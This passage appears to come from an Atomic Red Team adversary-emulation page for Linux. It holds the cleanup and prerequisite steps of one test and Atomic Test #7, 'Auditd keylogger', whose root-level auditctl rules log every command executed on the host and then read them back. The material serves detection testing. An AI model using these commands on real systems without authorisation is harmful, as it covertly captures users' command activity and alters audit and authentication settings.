 #### Cleanup Commands:

```sh
cp -fv /tmp/sshd /etc/pam.d/
```

#### Dependencies: Run with `sh`!

##### Description: This test requires sshd and auditd

##### Check Prereq Commands:

```sh
if [ ! -x "$(command -v sshd)" ]; then echo -e "\n***** sshd NOT installed *****\n"; exit 1; fi
if [ ! -x "$(command -v auditd)" ]; then echo -e "\n***** auditd NOT installed *****\n"; exit 1; fi
```

##### Get Prereq Commands:

```sh
echo ""
```

<br/>
<br/>

## Atomic Test #7 - Auditd keylogger

The linux audit tool auditd can be used to capture 32 and 64 bit command execution and place the command in the /var/log/audit/audit.log audit log.

**Supported Platforms:** Linux

**auto_generated_guid:** a668edb9-334e-48eb-8c2e-5413a40867af

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
auditctl -a always,exit -F arch=b64 -S execve -k CMDS
auditctl -a always,exit -F arch=b32 -S execve -k CMDS
whoami; ausearch -i --start $(date +"%d/%m/%y %H:%M:%S")
```

#### Cleanup Commands:

```sh
systemctl restart auditd
```

#### Dependencies: Run with `sh`!

##### Description: This test requires sshd and auditd

##### Check Prereq Commands:

```sh
if [ ! -x "$(command -v auditd)" ]; then echo -e "\n***** auditd NOT installed *****\n"; exit 1; fi
```
